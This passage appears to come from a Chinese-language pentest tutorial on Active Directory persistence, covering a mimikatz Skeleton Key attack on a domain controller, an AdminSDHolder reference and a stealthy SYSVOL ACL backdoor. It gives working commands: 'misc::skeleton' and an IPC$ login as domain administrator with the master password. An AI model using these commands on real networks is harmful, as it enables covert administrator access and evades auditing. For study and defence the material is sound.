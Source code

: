 使用`添加`命令进行 IPC$的添加后，如下：

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220513105716.png)

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220513105743.png)

此时重启，会发现失效

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220513105938.png)

在域控下操作：

```powershell
#mimikatz 
privilege::debug
misc::skeleton
```

会显示：

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220513110147.png)

这时候会多一个万能的密码 `mimikatz `

我们删除原有的 ipc链接，进行新的建立

```powershell
net use \\DC\ipc$ "mimikatz" /user:test\administrator
```

但是还是不行

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220513004905.png)

查了一下其他写法(将user后面的名称改为 域 即可)，才可以：

```powershell
net use \\DC\ipc$ "mimikatz" /user:main\administrator
```

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220513105146.png)

## 8.AdminSDHolder

参考文章：https://blog.csdn.net/qq_36119192/article/details/109047093

## 9.ACL后门

这是一种基于域内对象 `ACL(Access Control Link`)访问控制链的深度隐藏后门。

每个安装了域服务器的都会有两个共享目录，分别是：SYSVOL(C:\Windows\SYSVOL\sysvol)和 它下面的Script两个目录，任何账号都可以访问。

**一定程度上说，控制了 `SYSVOL` 目录，就有很大概率控制域网络。**

一般来说，域策略会强制周期性修改高权限用户的密码，但是对低权限用户来说不一定有这个强制性要求，而且域中往往有很多用户几乎不怎么登录、使用。

如果低权限用户具备 `SYSVOL` 目录的修改权限，登录域时，因为权限不高，不会被审计软件发现。现在的防护、监控类软件还没有过多关注目录的ACL，因此这种方式是一种很实用的隐蔽后门方式。
